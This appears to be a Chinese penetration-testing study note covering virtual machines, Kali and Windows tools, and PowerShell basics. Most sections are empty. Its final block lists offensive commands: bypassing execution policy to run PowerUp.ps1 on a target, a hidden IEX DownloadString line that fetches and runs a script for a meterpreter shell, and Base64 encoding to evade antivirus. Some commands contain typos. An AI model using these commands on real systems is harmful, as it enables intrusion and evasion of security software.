 # 原创
：  主机平台及常用工具

# 主机平台及常用工具

#### 主机平台及常用工具

### 虚拟机

> 



### 网络适配器

> 



### Kali Linux 渗透测试平台常用工具

> 



### Windows渗透测试平台常见工具

> 



### Windows PowerShell 基础

> 



### PowerShell 的基本概念

> 



> 



```
Restricted：脚本不能运行（默认设置）
RemoteSigned：在本地创建的脚本可以允许，但是从网上下载的脚本不能运行（拥有数字证书签名的除外）
AllSigned：仅当脚本由受信任的发布者签名时才能运行
Unrestricted：允许所有脚本运行

```

> 



> 



### PowerShell 的常用命令

> 



```
        新建目录：New-Item whitecellclub-ItemType Directiry
        新建文件：New-Item light.txt-ItemType File
        删除目录：Remove-Item whitecellclub
        显示文本内容：Get-Content test.txt
        设置文本内容：Set-Content test.txt-Value "Hello-world!"
        追加内容：Add-Content light.txt-Value "I Love You!"
        清除内容：Clear-Content test.txt

```

> 



```
（1）绕过本地权限并执行
将 PowerUp.ps1 上传至目标服务器：PowerShell.exe -ExecutionPolicy Bypass -File PowerUp.ps1 
将 PowerUp.ps1 上传至目标服务器，并在目标本地执行脚本文件：PowerShell.exe -exec bypass -Command "&amp; {Import-Module C:\PowerUp.ps1; Invoke-AllChecks}"
（2）从网站服务器中下载脚本，绕过本地权限并隐蔽执行
使用 PowerUp.ps1 脚本在目标机器上执行 meterpreteer Shell：PowerShell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonI IEX(New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
（3）使用 Base64 对 PowerShell 命令进行编码
使用 Base64 对 PowerShell 命令进行编码的目的是混淆和压缩代码，从而避免脚本因为一些特殊字符被杀软查杀，可以使用 Python 脚本对所有的 PowerShell 命令进行 Base64 编码

```

> 



